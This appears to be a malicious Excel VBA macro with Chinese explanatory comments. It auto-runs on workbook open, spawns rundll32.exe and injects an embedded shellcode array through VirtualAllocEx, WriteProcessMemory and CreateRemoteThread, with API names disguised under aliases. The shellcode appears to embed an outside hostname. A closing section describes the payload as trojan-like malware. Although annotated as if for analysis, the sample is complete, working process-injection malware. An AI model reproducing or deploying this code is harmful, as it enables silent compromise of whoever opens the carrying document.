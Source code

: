 ‘# 声明数据结构：PROCESS_INFORMATION和STARTUPINFO是用于处理API调用的数据结构。这些结构体用于存储正在创建的进程和线程的信息

    Private Type PROCESS_INFORMATION
        hProcess As Long
        hThread As Long
        dwProcessId As Long
        dwThreadId As Long
    End Type

    Private Type STARTUPINFO
        cb As Long
        lpReserved As String
        lpDesktop As String
        lpTitle As String
        dwX As Long
        dwY As Long
        dwXSize As Long
        dwYSize As Long
        dwXCountChars As Long
        dwYCountChars As Long
        dwFillAttribute As Long
        dwFlags As Long
        wShowWindow As Integer
        cbReserved2 As Integer
        lpReserved2 As Long
        hStdInput As Long
        hStdOutput As Long
        hStdError As Long
    End Type

‘# API函数声明：使用Declare语句声明了多个Windows API，包括CreateRemoteThread、VirtualAllocEx、WriteProcessMemory和CreateProcessA，这允许VBA调用这些低级系统函数。

    #If VBA7 Then
        Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
        Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
        Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
        Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
    #Else
        Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
        Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
        Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
        Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
    #End If

‘# 主入口点：Auto_Open：
‘# 	该子程序在Excel打开时会自动执行。
‘# 	它定义了一个字节数组myArray，其中存储了待执行的机器代码（可能是已经编译好的共享库或DLL的内容）。

    Sub Auto_Open()
        Dim myByte As Long, myArray As Variant, offset As Long
        Dim pInfo As PROCESS_INFORMATION
        Dim sInfo As STARTUPINFO
        Dim sNull As String
        Dim sProc As String

‘# 条件编译指令，判断 VBA 的版本

    #If VBA7 Then
        Dim rwxpage As LongPtr, res As LongPtr
    #Else
        Dim rwxpage As Long, res As Long
    #End If

‘# 定义字节数组，创建一个包含多个整数的数组，这些整数通常代表某段二进制代码。内容是ShellCode可执行内容

        myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84,60,97,124,2,44,32,-63,-49, _
    -42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3,125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4, _
    -58,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,-119,-3,-1,-1,110,120,115,97,102,101,56,56,56,56,46,105,99,117,0,58,-34,104,-79)

‘# 判断系统架构：通过检查环境变量ProgramW6432，确定操作系统是32位还是64位，并相应地选择rundll32.exe的位置。

        If Len(Environ("ProgramW6432")) > 0 Then
            sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
        Else
            sProc = Environ("windir") & "\\System32\\rundll32.exe"
        End If

‘# 创建进程：使用CreateProcessA函数启动rundll32.exe进程，并获得进程信息。

        res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)

‘# 内存分配和写入:
‘#	使用VirtualAllocEx在新进程中分配可读、可写、可执行的内存页面。
‘#	遍历myArray，使用WriteProcessMemory将机器代码写入新进程的内存。

        rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
        For offset = LBound(myArray) To UBound(myArray)
            myByte = myArray(offset)
            res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
        Next offset

‘# 创建远程线程：使用CreateRemoteThread在新进程中创建一个线程，执行刚刚写入的代码

        res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)

‘#自动打开子程序，确保该宏会在工作簿打开时自动运行，达到自启动的目的

    End Sub
    Sub AutoOpen()
        Auto_Open
    End Sub
    Sub Workbook_Open()
        Auto_Open
    End Sub  


代码说明:

    该宏的主要作用是利用Windows的rundll32.exe进程执行恶意代码。具体步骤是：
        创建一个新的进程（rundll32.exe）。
        在该进程的地址空间中分配内存。
        将恶意代码（myArray中的字节）写入到新进程的内存。
        通过创建远程线程来执行这些代码。
    机器代码: myArray实际上包含一些二进制数据，是一种有效负载，比如木马、病毒或其他恶意软件